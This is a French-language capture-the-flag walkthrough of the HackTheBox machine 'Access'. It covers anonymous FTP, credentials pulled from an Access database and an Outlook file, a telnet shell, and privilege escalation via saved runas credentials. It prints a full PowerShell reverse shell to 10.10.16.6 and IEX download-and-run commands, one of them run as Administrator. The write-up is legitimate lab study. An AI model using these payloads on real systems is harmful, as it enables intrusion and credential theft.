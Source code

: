 # Access - Easy

```bash
Nmap scan report for 10.10.10.98
Host is up (0.022s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.95 seconds
```

Vu qu’on peut ftp en tant qu’anonyme on essaye de regarder ce qu’il y a, on trouve un fichier .mdb et un zip.

[https://stackoverflow.com/questions/377219/how-to-use-an-ms-access-file-from-linux](https://stackoverflow.com/questions/377219/how-to-use-an-ms-access-file-from-linux)

Il y a des problèmes avec les fichiers téléchargés via la commande ftp alors on utilise wget pour les récupérer:

```bash
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```

Cette commande récupére tous les fichiers dispo, maintenant on peut lire les tables:

```bash
mdb-tables backup.mdb 
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc auth_group_permissions auth_message auth_permission auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate FaceTempEx FingerVeinEx TEMPLATEEx
```

On remarque notamment la table auth_user que l’on exporte:

```bash
mdb-export backup.mdb auth_user 
```

Ceci nous drop ces données:

```bash
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

On arrive à décompressier le .zip avec le mdp de engineer. On obtient un fichier Microsoft Outlook Personal Folder file, qui contient des emails et on peut le lire comme ça:

```bash
readpst
```

On obtient un mail avec ce contenu:

```html
</o:shapelayout></xml><![endif]--></head><body lang=EN-US link="#0563C1" vlink="#954F72"><div class=WordSection1><p class=MsoNormal>Hi there,<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>The password for the &#8220;security&#8221; account has been changed to 4Cc3ssC0ntr0ller.&nbsp; Please ensure this is passed on to your engineers.<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>Regards,<o:p></o:p></p><p class=MsoNormal>John<o:p></o:p></p></div></body></html>
```

Evilwinrm ne passe pas mais telnet écoute donc on essaye. On obtient un shell et le flag user:

```bash
telnet -l security 10.10.10.98
```

On essaye d’upload winpeas mais pas possible car pas d’executable de DL, on trouve un dossier .yawcam mais rien d’intéressant, on essaye d’upgrade le shell en utilisant un script PS1

```powershell
$client = New-Object System.Net.Sockets.TCPClient( "10.10.16.6" ,4443); $stream =
$client .GetStream();[byte[]] $bytes = 0..65535|%{0}; while (( $i = $stream .Read( $bytes ,
0, $bytes .Length)) -ne 0){; $data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString( $bytes ,0, $i ); $sendback = (iex $data 2>&1 |
Out-String ); $sendback2 = $sendback + "PS " + ( pwd ).Path + "> " ; $sendbyte =
([text.encoding]::ASCII).GetBytes( $sendback2 ); $stream .Write( $sendbyte ,0, $sendbyte .L
ength); $stream .Flush()}; $client .Close()
```

```bash
### powershell "IEX(New-Object Net.Webclient).downloadstring('http://10.10.16.6:8000/shell.ps1')"
```

On trouve ceci dans une commande d’énumération:

```bash
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

Ces passwords sauvegardés peuvent être utilisés pour des raccourcits, on utilise ces commandes pour énumérer:

```bash
Get-ChildItem "C:\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
ForEach ( $file in gc .\shortcuts.txt) { Write-Output $file ; gc $file | Select-String runas }
```

Des lignes paraissent étrange:

```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\ZKAccess3.5 Security System\Uninstall ZKAccess3.5 Security System.lnk                                                                                                                                    
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\ZKAccess3.5 Security System\ZKAccess3.5 Security System.lnk
C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk                                                                                                                                                                                                       
                                                                                                                                                                                                                                                              
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?M?:*wWindowsV1MV?System32???:?MV?*?                                                                                                                                                                     
System32X2P?:?                                                                                                                                                                                                                                                
               runas.exe???:1??:1?*Yrunas.exeL-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System3                                                                                                                                                    
2\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.                                                                                                                                 
5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico                                                                                                                                                                                        
%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico                                                                                                                                                                                                            
                                                                                                                                                                                                                                                              
?%?                                                                                                                                                                                                                                                           
   ?wN??]N?D.??Q???`?Xaccess?_???8{E?3                                                                                                                                                                                                                        
                                      O?j)?H???                                                                                                                                                                                                               
                                               )??[?_???8{E?3                                                                                                                                                                                                 
                                                             O?j)?H???                                                                                                                                                                                        
                                                                      )??[?    ??1SPS??XF?L8C???&?m?e                                                                                                                                                         
*S-1-5-21-953262931-566350628-63446256-500
```

En allant dans C:\Users\Public on ne voit aucun Desktop mais si on cd on y arrive quand même. On peut alors 

```bash
runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.16.6:8000/shell.ps1')"
```

On obtient alors le flag final, il est aussi possible de les extraire avec mimikatz